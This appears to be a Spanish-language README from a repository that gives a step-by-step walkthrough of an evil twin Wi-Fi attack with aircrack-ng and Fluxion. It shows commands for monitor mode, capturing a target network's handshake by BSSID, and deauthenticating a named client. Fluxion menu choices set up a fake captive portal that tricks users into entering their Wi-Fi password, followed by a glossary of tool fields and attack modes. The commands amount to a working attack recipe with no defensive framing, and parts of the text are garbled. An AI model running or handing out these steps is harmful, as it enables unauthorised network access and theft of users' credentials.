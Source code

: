 # EVIL-TWIN-ATTACK
Script y en que consiste el ataque evil twin en redes inalambricas

ATAQUE EVIL TWIN CON LA HERRAMIENTAS AIRCRACK-NG Y FLUXION.
*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/

Requisitos para el ataque
*Antena que acepte modo monitor
*kali linux u otro sistema operativo linux

1* Capturar el handshake
2* Clonar la red victima
*Expulsar alos clientes y redirigirlos a nuestra red falsa
4*El usuario debe ingresar sus credenciales en la pagina web
5* Comprabar y comparar el handshake

git clone https://www.github.com/FluxionNetwork/fluxion.git
cd fluxion
./fluxion.sh
./fluxion.sh -i instalamos todas las depencias faltantes

modo monitor
airmon-ng check kill && airmon-ng start wlan0 

identificar Bssid de la red
airodump-ng wlan0

auditar red especifica
airodump-ng -c 11 --bssid 54:71:DD:BF:86:E4 -w /home/avh04/Analisis/captura  wlan0

Esto nos ayuda a obtener en handsheke de la red

desautenticar un dispositivo de la red
aireplay-ng -0 150 -a 54:71:DD:BF:86:E4 -c 74:74:46:c0:ff:d5 wlan0
1

numeros

[1] Portal Cautivo Crea un punto de acceso "gemelo malvado".
[1] fluxwl0  [+] TP-Link TL-WN722N v2/v3 [Realtek RTL8188EUS] En miejemplo. Tu deberasutilizar el nombre detu adaptador de red, llamese wlan0, wlan1, enp0s3 u otro.

[*] Select a wireless interface for target tracking.
3*skip
[*] Seleccione una interaz para realizar jamming.
[1] fluxwl0  [*] TP-Link TL-WN722N v2/v3 [Realtek RTL8188EUS]  
[*] Selecccione una interfaz para el punto de acceso.
4
[*] Select a method of deauthentication                                                                           
[2] aireplay  
[1] hash - cowpatty
[2] cowpatty verification (recommended)


Dato Y nombres presentes en aircrack-ng que son muy importates.
*****************************************************************************************************************************************************************************

airodump-ng 
BSSID: corresponde a la dirección MAC del punto de acceso

PWR: corresponde al nivel de señal reportado por nuestra tarjeta inalámbrica, este valor va a depender del controlador de la tarjeta.

Beacons: corresponde al numero de paquetes-anuncio enviados por el AP,

Data: corresponde al numero de paquetes de datos capturados

CH: corresponde al numero de canal en el que se encuentra la señal del AP.

MB velocidad máxima soportada por el AP

ENC: indica si existe un algoritmo de cifrado en uso; OPN: sin cifrado

ESSID: este campo es conocido generalmente como SSID.

STATION: dirección MAC de cada estación asociada (clientes o usuarios).
********************************************************************************************************************************************************************************

aireplay-ng 
Ataque 0: desautenticacion

Ataque 1: ataque de autenticación falsa

Ataque 2: reenvio interactivo de paquetes

Ataque 3: reinyeccio de petición ARP

Ataque 4: ataque “chopchop” de korek

Ataque 5: ataque de frame.

/*/*/*/*//*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*
CREADOR: AVH04
ANGEL GABRIEL VALDIVIA FLORES
